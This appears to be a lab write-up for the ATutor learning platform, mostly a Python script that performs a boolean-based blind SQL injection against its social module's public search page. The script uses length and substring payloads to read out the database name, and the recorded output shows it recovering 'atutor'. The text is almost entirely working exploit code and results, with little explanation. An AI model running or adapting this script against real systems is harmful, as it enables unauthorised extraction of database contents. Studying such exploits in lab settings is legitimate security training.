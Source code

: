 

- Retrieving the database name

> - Script:
> ```python
> import requests
> import concurrent.futures
>
> target = "http://localhost/atutor/mods/_standard/social/index_public.php"
> final_string = {}
>
> def db_length(number):
>     payload = f"te')/**/or/**/(length(database()))={number}#"
>     param = {'q': payload}
>     r = requests.get(target, param)
>     content_length = int(r.headers['Content-length'])
>     if content_length > 20:
>         return number
>
>     
> def atutor_dbRetrieval(l):
>     for j in range(32, 256):
>         payload = f"te')/**/or/**/(select/**/ascii(substring(database(),{l},1))={j})#"
>         param = {'q': payload}
>         r = requests.get(target, param)
>         content_length = int(r.headers['Content-length'])
>         if content_length > 20:
>             final_string[l-1] = chr(j)
>             print(''.join(final_string[i] for i in sorted(final_string.keys())))
>             
>
>
> if __name__ == "__main__":
>     print('[*] Retreiving Database Length: \n[*] Database length: ', end=' ')
>     
>     db_len = 0
>     with concurrent.futures.ProcessPoolExecutor() as executor:
>         results = [executor.submit(db_length, _) for _ in range(30)]
>         
>         for f in concurrent.futures.as_completed(results):
>             if f.result() != None:
>                 db_len = f.result()
>     print(db_len)
>         
>     print("[+] Retrieving Database name: ....")
>     with concurrent.futures.ThreadPoolExecutor() as executor:
>         results = [executor.submit(atutor_dbRetrieval, index) for index in range(db_len+1)]
>
>     print("[+] Database Name: ", end=" ")
>     print(''.join(final_string[i] for i in sorted(final_string.keys())))
>     print("[+] Done")
> ```
> ```
> Output:
> python .\atutor_dbRetrieval-fast.py
> [*] Retreiving Database Length:
> [*] Database length:  6
> [+] Retrieving Database name: ....
> a
> ao
> aor
> ator
> attor
> atutor